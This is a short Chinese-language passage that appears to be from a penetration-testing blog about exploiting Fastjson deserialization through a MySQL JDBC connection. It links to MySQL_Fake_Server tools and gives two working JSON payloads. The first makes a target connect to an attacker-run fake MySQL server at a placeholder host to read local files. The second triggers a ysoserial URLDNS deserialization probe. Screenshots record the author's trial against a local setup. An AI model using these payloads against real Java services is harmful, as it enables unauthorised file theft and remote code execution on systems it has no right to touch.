   
python<3.8用这个https://github.com/fnmsd/MySQL_Fake_Server  
  
  
python3.8+用这个https://github.com/clown1ay/MySQL_Fake_Server  
  
  
首先进行文件读取，user指定要读取的文件  
  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "win_ini",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
本地和目标系统都读取不成功，本地  
mysql-connector-java为5.1.47  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrjY2CXMIwO0vYH4OATP9AtK7icfEZJNzMAWOkvRQZCTpRJfW3LxicjDOhe7AHfia3hod03gI4xDDlXQ/640?wx_fmt=png&from=appmsg "")  
  
  
转战反序列化，先进行DNSURL利用链探测，反序列化操作是否成功  
  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "yso_URLDNS_http://YOUR_DNSLOG",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
本地演示  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrjY2CXMIwO0vYH4OATP9At5p3aBh9VbibLnuicoowsd73dLkQaYabnpibHErkibZbClEEtPgrkcqbLvg/640?wx_fmt=png&from=appmsg "")  
  